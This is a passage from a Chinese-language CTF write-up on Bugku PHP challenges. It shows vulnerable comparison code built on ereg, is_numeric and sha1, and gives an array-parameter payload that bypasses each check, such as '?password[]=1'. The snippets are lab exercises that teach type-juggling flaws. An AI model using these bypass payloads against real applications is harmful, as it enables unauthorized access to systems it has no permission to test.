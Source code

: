 利用MD5没有办法处理数组的缺陷，绕过判断

payload: ?uasrname[]=1&password[]=2

## 数组返回NULL绕过(bugku)

```
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
    echo 'You password must be alphanumeric';
    else if (strpos ($_GET['password'], '--') !== FALSE)
    die('Flag: ' . $flag);
else
    echo 'Invalid password';
}
?>
```

利用ereg只能匹配字符，构造数组绕过

payload: ?password[]=1

## 弱类型整数大小比较绕过（bugku）

```
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
```
is_numeric用于检测变量是否为数字或数字字符串，不能判断数组，构造数组绕过

Payload: password[]=1

## sha()函数比较绕过(bugku)

```
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo 'Your password can not be your name!';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else echo 'Invalid password.';
}
```
==弱比较是比较字符，sha1()可以构造数组绕过
